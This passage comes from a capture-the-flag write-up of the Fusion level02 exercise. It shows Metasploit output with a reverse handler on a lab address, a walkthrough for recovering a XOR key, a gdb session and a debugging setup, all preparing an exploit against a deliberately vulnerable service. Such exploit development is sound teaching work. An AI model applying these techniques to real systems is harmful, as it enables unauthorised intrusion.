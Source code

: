   disconnect
end
{% endhighlight %}

The module successfully encrypts some data.

{% highlight bash %}
msf exploit(level02) > exploit

[*] Started reverse handler on 192.168.1.37:4444
[*] Encrypted data: "\xEC\xF20\xDB\x88Ml\xA4\x055\xA3\xB3\x95\xAC\xA2z\xE5\xFF\xE0\xCE>-Ak\xC6\x1A\x8C M\x19O\xF7\xB9\xCB\x9E\xE6\a\xE2\xFE\xC6\x9D\x1D^-\xF4\xAD\xCA\xECQ\xEFT\x8C\xD2\x8E\xA1&\xE9i7\xC2\xC97\x84lW\x0F\x80\xA3^Z\x1FG\x12\"\xF7\xDE\x986\xF2'\xCF3a\xA719\xCB)\x9B\xE8\xA6\xB5\x10\xFD-\xBF\xFAy1\x9A\x0FkGK\x8B\xF0\xF5z\x0F\x19\xF8v\x8F\xE2\x86\xC0F\xC8\xF7\x06\xFFpUF\x90\x05\xBA}\xEC\xF20\xDB\x88Ml\xA4\x055\xA3\xB3\x95\xAC\xA2z\xE5\xFF\xE0\xCE>-Ak\xC6\x1A\x8C M\x19O\xF7\xB9\xCB\x9E\xE6\a\xE2\xFE\xC6\x9D\x1D^-\xF4\xAD\xCA\xECQ\xEFT\x8C\xD2\x8E\xA1&\xE9i7\xC2\xC97\x84lW\x0F\x80\xA3^Z\x1FG\x12\"\xF7\xDE\x986\xF2'\xCF3a\xA719\xCB)\x9B\xE8\xA6\xB5\x10\xFD-\xBF\xFAy1\x9A\x0FkGK\x8B\xF0\xF5z\x0F\x19\xF8v\x8F\xE2\x86\xC0F\xC8\xF7\x06\xFFpUF\x90\x05\xBA}"
{% endhighlight %}

## <a name="retrieving-the-key"></a> Retrieving The Key
---
The server uses a XOR cipher to encrypt the data. The key can be retrieved using the following three steps:

- Generate some data: A
- The program will xor the input with a key: A ^ K
- Xor the encrypted data with the input: A ^ A ^ K = K

Before retrieving the key we will need to know the key size. Attach gdb to the server and print the size of the key buffer:

{% highlight bash %}
root@fusion:/home/fusion# gdb -q
(gdb) b *cipher
Breakpoint 1 at 0x8049735: file level02/level02.c, line 6.
(gdb) c
Continuing.
[New process 28738]
[Switching to process 28738]

Breakpoint 1, cipher (blah=0xbfa142ac 'A' <repeats 200 times>..., len=256) at level02/level02.c:6
6 level02/level02.c: No such file or directory.
(gdb) p keybuf
$1 = {0 <repeats 32 times>}
(gdb)
{% endhighlight %}

The encryption key is 32 integers long or 128 bytes.

Like the previous levels this program will fork a new process for each connection, make sure to enable `follow-fork-mode child`. While creating the exploit we will be attaching gdb many times,`.gdbinit` can save a lot of typing. I recommend adding the following lines:

{% highlight bash %}
root@fusion:/home/fusion# cat .gdbinit
source gdb-checksec.py
source gdb-pattern.py

set disassembly-flavor intel
set follow-fork-mode child

attach 1479
c

root@fusion:/home/fusion#
{% endhighlight %}
